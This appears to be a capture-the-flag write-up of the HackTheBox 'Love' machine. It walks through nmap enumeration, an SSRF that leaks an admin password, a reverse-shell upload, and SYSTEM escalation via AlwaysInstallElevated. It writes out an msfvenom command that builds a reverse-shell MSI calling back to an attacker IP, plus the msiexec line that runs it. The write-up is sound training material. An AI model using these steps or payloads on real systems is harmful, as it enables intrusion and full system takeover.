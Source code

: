 ```yaml
---
title: "HackTheBox - Love"
author: Nasrallah
description: ""
date: 2023-03-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, ssrf, metasploit]
img_path: /assets/img/hackthebox/machines/love
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Love](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.239                                                                                                                      [56/66]
Host is up (0.32s latency).                                                                                                                                   
Not shown: 993 closed tcp ports (reset)                                   
PORT     STATE SERVICE      VERSION                                            
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:                                                           
|   /:                                                                         
|     PHPSESSID:                                                               
|_      httponly flag not set                                                  
|_http-title: Voting System using PHP                                          
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27     
135/tcp  open  msrpc        Microsoft Windows RPC                         
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16                                   
|_Not valid after:  2022-01-18T14:00:16                                   
|_http-title: 403 Forbidden                                                    
|_ssl-date: TLS randomness does not represent time                        
| tls-alpn:                                                                    
|_  http/1.1                                                                   
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27                                                                                         
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?                                                          
| fingerprint-strings:                                                         
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SS
LSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.17.90' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27

Host script results:
| smb2-time: 
|   date: 2023-03-24T12:39:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-24T05:39:14-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h41m32s, deviation: 4h02m30s, median: 21m32s
```

We have an Apache http web server on port 80, SSL on 443, SMB on port 445, mysql on 3306 and another Apache web server on port 5000

The ssl certificate reveals the hostname `staging.love.htb`, so let's add that to /etc/hosts with `love.htb`.

## Web

Let's check `love.htb`.

![](1.png)

We have a voting system, nothing interesting.

Let's go to `staging.love.htb`

![](2.png)

Here we have a secure file scanner with a demo page, let's leave it for now.

Let's check the web page on port 5000.

![](3.png)

We can't access the page.

Back to `staging.love.htb`, let's go to the demo page.

![](4.png)

Here we can enter the url for a file to scan.

Since we can't access the page on port 5000, let's submit `http://127.0.0.1:5000` and see what happens.

![](5.png)

We got admin's password.

Back to `love.htb` we find an admin page at `/admin`.

![](6.png)

We login as admin and the password we got.

![](7.png)

# **Foothold**

Going tot `Voters` tab, we see we can upload images, let's instead upload a reverse shell.

![](8.png)

![](9.png)

We got a shell.

# **Privilege Escalation**

## Metasploit

After upgrading to a meterpreter session, we run exploit suggester.

![](10.png)

Let's use `exploit/windows/local/always_install_elevated`

![](11.png)

We got System

## Manual

We run `winpeas` and find the following results.

![](12.png)

We find that `AlwaysInstallElevated` is set to 1 this means that we can install `.msi` files as `NT AUTHORITY\SYSTEM`.

First let's create an `msi` file using `msfvenom`.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9002 -f msi -o hack.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes 
Saved as: hack.msi
```

Now we upload the file and execute using the following command:

```bash
msiexec /quiet /qn /i hack.msi
```

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).